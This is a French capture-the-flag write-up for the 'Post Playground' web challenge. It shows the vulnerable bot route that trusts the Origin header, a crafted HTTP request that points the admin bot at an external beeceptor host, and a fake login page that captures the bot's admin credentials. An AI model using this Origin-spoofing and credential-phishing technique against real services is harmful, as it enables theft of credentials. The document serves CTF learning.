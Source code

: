 Web - Post Playground 
===========================

Enoncé
----------

Super secure futurist request maker, sounds great ? 

Résolution
-------------

Le bot utilise l'entête "Origin" pour définir le serveur sur lequel il se connecte

.. code-block:: javascript

    router.post('/bot', async (req, res) => {
        if(!req.session.username) {
            res.status(401).send('Please login before reporting  to bot.');
        }
        if(req.body.uuid !== undefined && typeof(req.body.uuid) === "string") {
            if(UUID_RE.exec(req.body.uuid) && req.get('origin') !== undefined && 
                (req.get('origin').startsWith("http://") || req.get('origin').startsWith("https://")) ) {
                let bot_res = await bot.goto(req.body.uuid, req.get('origin'), ADM_USERNAME, ADM_PASSWORD);
                if(bot_res) {
                    res.status(200).json({"status":200, "data": "Nothing seems wrong with this playground."});
                } else {
                    res.status(500).json({"status":500, "error": "Something goes wrong..."});
                }
            } else {
                res.status(400).json({"status":400, "error": "Id is invalid."});
            }
        } else {
            res.status(400).json({"status":400, "error": "Missing parameters."});
        }
    })

On va donc modifier l'entête Origin : 

.. code-block:: console

    POST /api/bot HTTP/1.1
    Host: chall4.midnightflag.fr:14593
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: http://chall4.midnightflag.fr:14593/playground
    Content-Type: application/x-www-form-urlencoded;charset=UTF-8
    Content-Length: 41
    Origin: https://azezaehgaz.free.beeceptor.com
    Connection: keep-alive
    Cookie: session=eyJnYW1lIjowfQ.Z_pbBw.JMSdg0h-IAuXsWRzM43gl0gRX_0; connect.sid=s%3A_rrxjTPaOjXYU1r6gxyu4TI5LUS_-I3W.PUyRLv859hf6qNBE7n1sDZzq3D6%2FVWIsFJ0MLjWxATM
    Sec-GPC: 1
    X-PwnFox-Color: blue
    Priority: u=0

    uuid=8dfa87a1-32e5-487e-97d8-ac88239f5205

On modifie le beepcetor pour afficher un formulaire login/password et submit sur /post. :

.. code-block:: html

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Login</title>
        <style>
            body {
                font-family: Arial, sans-serif;
                text-align: center;
                margin-top: 100px;
            }
            input, button {
                margin: 10px;
                padding: 10px;
                font-size: 16px;
            }
        </style>
    </head>
    <body>
        <h2>Welcome back 👋</h2>

        <form id="login-form" action="/login" method="POST">
            <input type="text" id="username" name="username" placeholder="Username" /><br>
            <input type="password" id="password" name="password" placeholder="Password" /><br>
            <button type="submit" id="submit">Login</button>
        </form>
    </body>
    </html>


Le bot va envoyer ses identifiants sur notre serveur et c'est gagné.

